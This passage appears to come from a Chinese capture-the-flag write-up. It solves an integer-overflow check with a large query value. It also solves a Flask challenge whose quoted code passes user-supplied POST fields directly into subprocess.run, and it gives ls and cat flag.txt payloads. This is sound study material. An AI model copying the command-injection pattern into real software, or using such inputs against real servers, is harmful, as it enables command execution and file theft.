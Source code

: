 > int范围查阅Manual可知：32位最大是2\**31-1，64位是2\*\*63-1

2**63-1  == 9223372036854775807

2**31-1  == 2147483647

Payload：

```
?0=9223372036854775817(比这个数大就行)
```



### easyPytHon_P

> 这个题主要是认识：subprocess模块

```python
from flask import request
cmd: str = request.form.get('cmd')
param: str = request.form.get('param')
# ------------------------------------- Don't modify ↑ them ↑! But you can write your code ↓
import subprocess, os
if cmd is not None and param is not None:
    try:
        tVar = subprocess.run([cmd[:3], param, __file__], cwd=os.getcwd(), timeout=5)
        print('Done!')
    except subprocess.TimeoutExpired:
        print('Timeout!')
    except:
        print('Error!')
else:
    print('No Flag!')
```

> 需要注意：在flask中
>
> - request.args.get() 是获取get传参
> - request.form.get() 是获取post传参

Payload:

```python
#这里要注意要查看当前目录需要
cmd=ls&param=.
#找到flag.txt
cmd=cat&param=flag.txt
```

> \#执行ls -l /dev/null 命令
> \>>> subprocess.run(["ls", "-l", "/dev/null"])
> crw-rw-rw-  1 root  wheel   3,  2 5 4 13:34 /dev/null
> CompletedProcess(args=['ls', '-l', '/dev/null'], returncode=0)





###  遍地飘零
